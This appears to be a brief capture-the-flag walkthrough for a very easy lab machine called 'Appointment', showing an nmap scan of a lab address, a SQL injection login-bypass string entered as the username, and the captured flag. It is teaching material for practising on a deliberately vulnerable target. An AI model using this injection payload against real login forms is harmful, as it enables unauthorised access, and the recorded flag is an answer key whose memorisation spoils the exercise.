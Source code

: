 # CTF Walkthrough: Appointment

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** SQL Injection
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV 10.129.74.183`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            80/tcp open  http    Apache httpd 2.4.38 ((Debian))
            ```

2. SQL inject
    - Username: admin' or '1'='1

3. Get flag
    - Flag: e3d0796d002a446c0e622226f42e9672

